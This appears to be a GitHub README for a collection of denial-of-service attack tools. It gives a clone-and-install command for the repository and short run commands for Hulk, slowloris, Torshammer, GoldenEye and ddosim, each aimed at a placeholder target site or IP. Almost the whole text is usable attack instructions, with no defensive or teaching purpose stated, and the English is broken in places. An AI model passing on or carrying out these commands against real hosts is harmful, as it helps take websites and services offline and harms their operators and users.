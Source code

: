 # DDOS-ATTACK-Collection
## First Thanks For All Author Scrypt Gos Blase Ouer, And For More Info About Tools Please Red The REDME.ME in our Tools

**Copy "sudo git clone https://github.com/4lT4lR/DDOS-ATTACK-LINUX.git && cd DDOS-ATTACK-LINUX && pip install -r requirements.txt" And Past on Terminal Command For setup all tools require**

## Hulk-ATTACK :- 
**cd hulk && chmod +x * && python2 hulk.py YOUR_SITE_ATTACK**


## slowloris-ATTACK :- 
**cd slowloris && chmod +x * && python2 setup.py && python2 slowloris.py**

## Torshammer-ATTACK :-
**cd Torshammer && chmod +x * && python2 Torshammer.py YOUR_SITE_ATTACK**

## GoldenEye
**cd GoldenEye && chmod +x * && ./goldeneye.py url OPTIONS**

## ddosim-0.2
**cd ddosim-0.2 && chmod +x * && ./configure && make && make install && ./ddosim IP_TARGET**
